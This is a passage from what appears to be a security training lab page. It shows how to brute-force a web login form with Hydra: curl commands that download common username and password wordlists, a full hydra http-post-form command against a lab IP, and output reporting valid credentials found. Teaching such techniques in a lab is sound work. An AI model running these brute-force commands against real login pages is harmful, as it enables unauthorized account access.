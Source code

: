 <p>This <code>params</code> string is incorporated into the Hydra command as follows. Hydra will systematically substitute <code>^USER^</code> and <code>^PASS^</code> with values from your wordlists, sending POST requests to the target and analyzing the responses for the specified failure condition. If a login attempt doesn't trigger the "Invalid credentials" message, Hydra will flag it as a potential success, revealing the valid credentials.</p>
<pre><code class="language-shell-session"># Download wordlists if needed
[!bash!]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
[!bash!]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
[!bash!]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&amp;password=^PASS^:F=Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC &amp; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 12:51:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&amp;password=^PASS^:F=Invalid credentials
[5000][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 12:51:28
</code></pre>
<p>Remember that crafting the correct <code>params</code> string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. Once Hydra has completed the attack, log into the website using the found credentials, and retrieve the flag.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">